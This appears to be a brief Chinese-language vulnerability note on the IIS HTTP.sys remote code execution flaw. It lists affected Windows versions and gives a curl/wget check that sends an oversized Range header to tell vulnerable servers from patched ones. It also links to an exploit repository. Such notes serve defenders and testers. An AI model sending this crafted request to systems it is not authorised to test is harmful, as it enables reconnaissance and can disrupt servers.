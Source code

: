 >影响版本：
>安装了微软
>IIS 6.0以上的
>Windows Server 2008 R2/Server 2012/Server 2012 R2和Windows 7/8/8.1都受到这个漏洞的影响。

>漏洞描述：
>IIS远程代码执行漏洞存在于HTTP协议堆栈（HTTP.sys）中，
>当HTTP.sys不正确地解析HTTP请求时会导致此漏洞。

漏洞验证:
执行：**curl url -H “Host:ip” -H “Range:bytes=0-18446744073709551615”**： or wget http://www.host.com --header="Range: bytes=0-18446744073709551615"
- 若IIS服务器返回“requested range not satisfiable”，则是存在漏洞；
- 如果返回“the request has an invalid header name”，则说明漏洞已被修补。

参考链接：
https://github.com/helloexp/0day/tree/master/00-CVE_EXP/CVE-2015-1635
https://www.cnblogs.com/8ling/p/12823547.html
https://blog.csdn.net/qq_33608000/article/details/112798458
